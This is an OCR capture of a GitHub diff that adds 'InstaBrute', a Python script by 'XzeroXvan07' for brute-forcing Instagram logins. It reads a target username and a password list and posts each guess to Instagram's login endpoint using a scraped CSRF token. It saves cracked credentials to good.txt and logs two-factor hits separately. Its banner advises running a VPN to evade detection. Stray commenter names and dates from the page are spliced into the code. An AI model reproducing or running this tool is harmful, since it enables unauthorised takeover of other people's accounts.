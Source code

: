 @@ -0,0 +1,103 @@
from __future__ import absolute_import
from __future__ import print_function
import requests, sys, threading, time, os, random
from random import randint
from six.moves import input
CheckVersion = str(sys.version)
import re
from datetime import datetime



print('''
                               ....                                         
@grandmadae
grandmadae on Jun 30, 2023
grandmadae

                                    %                                       
                                     ^                                      
                            L                                               
                            "F3  $r                                         
                           $$$$.e$"  .                                      
                           "$$$$$"   "                                      
     (Xzero by 4)           $$$$c  /                                       
        .                   $$$$$$$P                                        
       ."c                      $$$                                         
      .$c3b                  ..J$$$$$e                                      
      4$$$$             .$$$$$$$$$$$$$$c                                    
       $$$$b           .$$$$$$$$$$$$$$$$r                                   
          $$$.        .$$$$$$$$$$$$$$$$$$                                   
           $$$c      .$$$$$$$  "$$$$$$$$$r                                  
Author   : XzeroXvan07

Management depends on vpn software. Please use it before running the tool

           """""""""""""""""""""""""""""""""""""""""" 
''')


class InstaBrute(object):
    def __init__(self):

        try:
            user = input('username : ')
@Gbfjgj
Gbfjgj on Apr 24 • 
...

            Combo = input('passList : ')
            print('\n----------------------------')

        except:
            print(' The tool was arrested exit ')
            sys.exit()


        with open(Combo, 'r') as x:
            Combolist = x.read().splitlines()
        thread = []
        self.Coutprox = 0
        for combo in Combolist:
            password = combo.split(':')[0]
            t = threading.Thread(target=self.New_Br, args=(user, password))
            t.start()
            thread.append(t)
            time.sleep(0.9)
        for j in thread:
            j.join()

    def cls(self):
        linux = 'clear'
        windows = 'cls'
        os.system([linux, windows][os.name == 'nt'])

    def New_Br(self,user,pwd):
        link = 'https://www.instagram.com/accounts/login/'
        login_url = 'https://www.instagram.com/accounts/login/ajax/'

        time = int(datetime.now().timestamp())

        payload = {
            'username': user,
            'enc_password': f'#PWD_INSTAGRAM_BROWSER:0:{time}:{pwd}',
            'queryParams': {},
            'optIntoOneTap': 'false'
        }

        with requests.Session() as s:
            r = s.get(link)
            csrf = re.findall(r"csrf_token\":\"(.*?)\"", r.text)[0]
            r = s.post(login_url, data=payload, headers={
                "User-Agent": "Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36",
                "X-Requested-With": "XMLHttpRequest",
                "Referer": "https://www.instagram.com/accounts/login/",
                "x-csrftoken": csrf
            })
            print(f'{user}:{pwd}\n----------------------------')

            if 'authenticated": true' in r.text:
                print(('' + user + ':' + pwd + ' --> Good hack '))
                with open('good.txt', 'a') as x:
                    x.write(user + ':' + pwd + '\n')
            elif 'two_factor_required' in r.text:   
                print(('' + user + ':' + pwd + ' -->  Good It has to be checked '))
                with open('results_NeedVerfiy.txt', 'a') as x:
                    x.write(user + ':' + pwd + '\n')




InstaBrute()
